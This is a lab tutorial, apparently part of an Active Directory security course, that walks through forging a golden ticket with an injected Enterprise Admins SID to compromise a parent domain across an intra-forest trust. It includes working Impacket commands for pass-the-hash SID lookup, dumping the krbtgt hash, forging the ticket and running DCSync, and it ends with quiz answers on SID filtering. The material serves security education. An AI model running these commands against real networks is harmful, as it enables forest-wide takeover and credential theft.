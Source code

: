 #Trustpocalypse

The Trustpocalypse attack illustrates how an attacker can navigate from one domain to others very easily, once a single domain has been compromised.

Throughout this lab, we've seen multiple ways of compromising the north domain. Recall one of them in order to retrieve the krbtgt account's hash, which is needed in this attack.

With the krbtgt's account hash, we can forge golden tickets, as seen in the 'Golden Tickets' section of this lab. What if I told you that with this hash we can also forge tickets with admin access on other domains? This way, by compromising a single domain (which isn't an easy task, don't get me wrong), an attacker can then easily (yes, then it's easy) compromise other trusting entire domains.

This can be done through the SID history mechanism in AD. Basically, the attacker can add the Enterprise Admins SID to the forged ticket, granting the attacker Enterprise Admin privileges (Admin Privileges in every domain of the forest). This way, the attacker can compromise other domains. This is only possible in trusts that do not enforce SID filtering, which is the case of intra-forest trusts by default, which in our lab, is established between the NORTH and the ALTAIR domain. This allows this kind of SID injection to succeed.

First, the attacker needs to find which are the SIDs that will be needed for this process. Its own domain SID, as well as the Forest Root domain SID (altair's SID in our case):
```
#These commands are here used with an admin hash, please retrieve your hash and replace it in these commands. Through other attacks we were able to retrieve the admins hash. If you dont have the hash, go back to these attacks and retrieve it
lookupsid.py -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86 -domain-sids north.altair.local/Administrator@192.168.122.20 0 #altair.local domain SID
lookupsid.py -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86 -domain-sids north.altair.local/Administrator@192.168.122.10 0 #north.altair.local domain SID
```

Now we have the required SIDs to this attack. To get the EA SID, we just need to add -519 at the end of altair's domain SID.

Now, we can build a TGT that includes the EA SID, and thus we’ll have full administrator access in altair, from the north domain. For that, we’ll use the 'ticketer.py' script from Impacket. To use the 'ticketer.py' script, we’ll need the krbtgt account’s NT hash. Retrieve it using 'secretsdump.py' script with the admin hashes. Then, retrieve the NT hash and use it in the script.

```
#get the krbtgt account hash
secretsdump.py north.altair.local/administrator@192.168.122.10 -hashes aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86
#[+] krbtgt:502:aad3b435b51404eeaad3b435b51404ee:640464e963ce78864650de778a6b9c31:::

#The -domain-sid argument is the sid from the current domain, north. then the -extra-sid argument is the EA SID, the altair's SID + -519
ticketer.py -nthash 640464e963ce78864650de778a6b9c31 -domain-sid S-1-5-21-1162943719-2261011477-1519509434 -domain north.altair.local -extra-sid S-1-5-21-1073456172-1737515156-949376640-519 berntheman
export KRB5CCNAME=/your/dir/berntheman.ccache
secretsdump.py -k -no-pass -just-dc-ntlm north.altair.local/berntheman@chief.altair.local
```

Et voilà, we've compromised a trusting domain with a single ticket, which we can forge since we've compromised the trusted domain. On one sweep, an entire domain is compromised. Very scary.

!!! question
    Can inter-forest trusts be attacked in this manner? Explain the mechanism that prevents it.
??? success "Answer"
    No, not by default. By default inter-forest trusts have SID filtering enabled. The SID filtering mechanism filters out SIDs that do not pertain to the domain from which the ticket is being sent from. This means that, in the case of this attack, if SID filtering was enabled, the attacker could not use a ticket that held the EA SID since this specific SID pertains to the altair domain, and not the north domain. Only SIDs from north would not be filtered by the SID filtering mechanism.
!!! question
    Why was the SID history mechanism implemented?
??? success "Answer" 
    The SID history mechanism was implemented to simplify the migration of users or computers between domains. When a security principal moves from one domain (like north) to another (altair, for example), their SID changes because part of the SID is the domain SID.
    Access to resources is controlled by ACLs tied to specific SIDs, so without SID history, admins would need to manually reconfigure permissions on all resources the user previously accessed — a tedious task.
    With SID history, the migrated account retains its old SID in its authentication token, allowing it to access resources in the old domain without modifying any ACLs.

